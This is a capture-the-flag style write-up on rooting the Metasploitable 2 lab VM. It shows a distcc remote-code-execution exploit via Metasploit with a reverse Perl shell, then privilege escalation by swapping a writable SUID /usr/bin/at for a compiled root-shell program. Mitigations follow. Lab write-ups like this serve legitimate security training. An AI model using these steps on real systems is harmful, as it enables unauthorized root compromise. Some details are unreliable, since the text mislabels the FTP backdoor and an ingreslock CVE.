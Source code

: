
---

# 🧨 Metasploitable 2 — The Hard Way to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `PHP-CGI`, `Nuclei`, `LinPEAS`, `Privilege Escalation`, `SUID Hijacking`, `Linux`

---

## 📘 Description

**While this machine is known for its trivial `vsftpd 2.3.4`('https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb') backdoor, this write-up documents a deliberately chosen, more challenging path to simulate a scenario where common exploits might fail. Instead of taking the easy way, the focus was on deep analysis and exploiting less obvious misconfigurations.**

This challenge is based on the classic **Metasploitable 2** virtual machine.  
The goal: identify vulnerabilities through deep enumeration, gain initial access, and escalate privileges to become **root**.

While there are simpler, well-known paths on this machine, **this write-up documents a deliberate choice to explore less obvious vectors**, simulating a scenario where common exploits might fail. The path involved multiple dead ends, including a patched PHP-CGI vulnerability and a failed PwnKit exploit, ultimately leading to a successful privilege escalation by exploiting a **SUID binary misconfiguration**.

---

## 🔍 Reconnaissance

### Initial Foothold & Deep Scan

Initial enumeration quickly identifies several "low-hanging fruit" vulnerabilities, such as a **backdoored ProFTPD on port 21**. However, choosing the easy path offers little challenge. Instead, the focus was shifted to a more comprehensive analysis of the machine's entire attack surface.

A full vulnerability scan was performed using **Nuclei** to uncover less trivial entry points.

```bash
nuclei -u http://192.168.58.3
```

**Key Results from Nuclei (Ignoring the obvious FTP backdoor):**

| Port | Service     | Finding                                  | Notes                                    |
|------|-------------|------------------------------------------|------------------------------------------|
| 3632 | distcc      | **RCE via CVE-2004-2687**                | **Chosen vector for initial access**     |
| 5432 | PostgreSQL  | Default credentials (postgres:postgres)  | Excellent alternative for access/pillage |
| 6200 | ingreslock | RCE via backdoored service (CVE-2011-2523) | Another solid RCE vector                 |

---

## 🔥 Vulnerability: distcc Command Execution (RCE)

The `distcc` service, a distributed compiler, was running on port 3632 and was vulnerable to **CVE-2004-2687**, allowing unauthenticated remote code execution. This vector was selected for being a more interesting and less common entry point than the FTP backdoor.

- **Metasploit module:** `exploit/unix/misc/distcc_exec`

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.58.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.58.1
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > run
```

🎉 **Result:** Reverse shell obtained as **daemon (UID 1)**.

---

## 🧠 Privilege Escalation

### Step 2: Surgical Enumeration with LinPEAS

A full LinPEAS scan was initially overwhelming. To focus the search, a targeted scan was used to find only misconfigured file permissions.

```bash
# On the victim machine
./linpeas.sh -o interesting_perms_files
```
🔎 This immediately revealed the critical vulnerability:

`You own the SUID file: /usr/bin/at`

This means the `daemon` user has write permissions on a binary that is owned by `root` and has the SUID bit set.

### Step 3: Exploit via SUID Binary Hijacking

The strategy was to replace the legitimate `/usr/bin/at` binary with a custom payload that spawns a root shell.

```bash
# 1. Back up the original binary
mv /usr/bin/at /tmp/at.bak

# 2. Create a C payload to spawn a root shell
echo '#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}' > /tmp/evil_at.c

# 3. Compile the payload and replace the original binary
gcc /tmp/evil_at.c -o /usr/bin/at

# 4. Restore the SUID bit
chmod +s /usr/bin/at

# 5. Execute the hijacked binary
/usr/bin/at
```
🔥 Boom → A new shell appeared with **root access**.

---

## 🏆 Final Outcome

✔️ Performed deep enumeration with **Nuclei**, bypassing initial dead ends.  
✔️ Exploited **distcc (CVE-2004-2687)** → gained reverse shell as `daemon`.  
✔️ Performed targeted enumeration with **LinPEAS**.  
✔️ Escalated privileges by **hijacking a writable SUID binary (`/usr/bin/at`)**.  
✔️ Achieved **ROOT**!

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                    |
|-----------------|---------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of all system data, including `/etc/shadow` and user files. |
| Integrity       | 🔴 Attacker can modify any file, install backdoors, and manipulate logs.    |
| Availability    | 🔴 The system can be fully disabled or destroyed by the attacker.           |

---

## 🛡️ Mitigation

- **Patch Services:** Update or disable vulnerable services like `distcc`.
- **Principle of Least Privilege:** Run services with dedicated, unprivileged users.
- **File Integrity Monitoring:** Use tools like `AIDE` or `Tripwire` to detect unauthorized changes to critical system binaries.
- **SUID/SGID Auditing:** Regularly audit SUID/SGID files and remove permissions where they are not strictly necessary.

---

## 💡 Reflection

This lab was a masterclass in persistence and methodical problem-solving.
- It proved that while simple paths like the **ProFTPD backdoor** exist, a deeper analysis reveals a much richer and more educational attack surface.
- Reinforced the power of **targeted enumeration** over "spray and pray" tactics.
- Showcased a classic, reliable privilege escalation technique that is often more effective than complex kernel exploits.
- The path was not linear; it required adapting to failures and re-evaluating intelligence, which is the essence of a real penetration test.

🔥 This wasn't just about getting root; it was about earning it through analysis, precision, and the deliberate choice of a more challenging path.
